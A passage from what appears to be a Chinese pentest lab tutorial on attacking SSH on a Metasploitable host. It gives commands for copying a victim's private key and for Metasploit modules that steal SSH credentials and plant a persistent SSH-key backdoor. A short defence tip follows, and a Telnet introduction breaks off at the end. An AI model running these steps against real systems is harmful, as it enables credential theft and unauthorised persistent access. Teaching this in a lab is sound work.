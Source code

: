 ### [](#%E4%BD%BF%E7%94%A8-rsa-%E5%AF%86%E9%92%A5%E5%BB%BA%E7%AB%8B-ssh-%E8%BF%9E%E6%8E%A5)使用 RSA 密钥建立 SSH 连接

配置：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br>ssh-keygen<br>cd /home/kali/.ssh<br>ls<br>cat id_rsa.pub > authorized_keys<br>scp msfadmin@ip:/home/msfadmin/.ssh/id_rsa ./<br>sudo vim /etc/ssh/sshd_config<br>PasswordAuthentication no<br>sudo /etc/init.d/ssh restart<br>``` |

连接：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -i id_rsa username@ip<br>``` |

### [](#%E7%AA%83%E5%8F%96-ssh-%E5%AF%86%E9%92%A5)窃取 SSH 密钥

已获得 meterpreter 会话，窃取 SSH 密钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login 获取会话<br>use post/multi/gather/ssh_creds<br>set session 1<br>run<br>``` |

### [](#ssh-%E5%AF%86%E9%92%A5%E6%8C%81%E4%B9%85%E6%80%A7%E5%90%8E%E9%97%A8)SSH 密钥持久性后门

已获得 meterpreter 会话，留下 SSH 密钥持久性后门

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login 获取会话<br>use post/linux/manager/sshkey_persistence<br>set session 1<br>run<br>``` |

### [](#%E9%98%B2%E5%BE%A1-1)防御

#### [](#%E4%BF%AE%E6%94%B9%E9%BB%98%E8%AE%A4%E7%AB%AF%E5%8F%A3)修改默认端口

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>sudo vim /etc/ssh/sshd_config<br>port 22222<br>sudo /etc/init.d/ssh restart<br>``` |

## [](#telnet-%E6%BC%8F%E6%B4%9E)Telnet 漏洞

### [](#telnet-%E7%AE%80%E4%BB%8B)telnet 简介

Telnet 协议是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议和主要方式。它为用户提供了在本地计算机上完成远程主机工作的能力。在终端使用者的电脑上使用 telnet 程序，用它连接到服务器。终端使用者可以在 telnet 程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样。可以在本地就能控制服务器。要开始一个 telnet 会话，必须输入用户名和密码来登录服务器。Telnet 是常用的远程控制 Web 服务器的方法。

### [](#banner-%E4%BF%A1%E6%81%AF-1)banner 信息
